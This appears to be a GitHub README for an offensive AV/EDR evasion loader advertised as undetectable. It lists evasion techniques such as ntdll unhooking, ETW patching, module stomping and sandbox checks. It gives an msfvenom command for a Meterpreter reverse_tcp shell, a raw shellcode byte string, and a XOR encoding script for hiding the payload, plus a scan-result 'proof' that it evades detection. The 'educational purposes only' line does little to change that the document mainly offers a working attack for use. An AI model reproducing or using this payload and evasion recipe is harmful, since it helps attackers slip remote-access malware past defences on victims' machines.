 # KILLER TOOL (EDR Evasion)
It's a AV/EDR Evasion tool created to bypass security tools for learning, until now the tool is FUD.

# Features:

* Module Stomping for Memory scanning evasion
* DLL Unhooking by fresh ntdll copy
* IAT Hiding and Obfuscation & API Unhooking
* ETW Patchnig for bypassing some security controls
* Included sandbox evasion techniques & Basic Anti-Debugging
* Fully obfuscated (Functions - Keys - Shellcode) by XOR-ing
* Shellcode reversed and Encrypted
* Moving payload into hallowed memory without using APIs 
* GetProcAddress & GetModuleHandle Implementation by @cocomelonc
* Runs without creating new thread & Suppoers x64 and x86 arch

# How to use it

Generate your shellcode with msfvenom tool :

      msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST<IP> LPORT<PORT> -f py
      
 Then copy the output into the encryptor XOR function :
 
        data = b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00"

        key  = 0x50 # Put here your key as byte like for example (0x90 or 0x40 or 0x30) and more...

        print('{ ', end='')
        for i in data:
            print(hex(i ^ key), end=', ')

        print("0x0 };") # Notice that it adds one byte "0x0" to the end.

And then you can handle your decryption function, It's not easy for script kiddies ^-^, you can read more about it in my articale : 

* Part 1 => https://medium.com/@0xHossam/av-edr-evasion-malware-development-933e50f47af5
* Part 2 => https://medium.com/@0xHossam/av-edr-evasion-malware-development-p2-7a947f7db354

This is the result when running :

![image](https://user-images.githubusercontent.com/82971998/230731975-a70abd1c-279b-4e79-9e91-6b5212b7db9a.png)

# PoC (Proof-of-Concept) :

https://antiscan.me/images/result/07OkIKKhpRsG.png

![image](https://user-images.githubusercontent.com/82971998/230732045-ca2638fe-4f3c-4926-8f94-4fff817ca585.png)

# Important Notes

* First thanks to Abdallah Mohammed for helping me to develop it ^_^
* The tool is for educational purposes only
* Compile the code with visual studio compiler

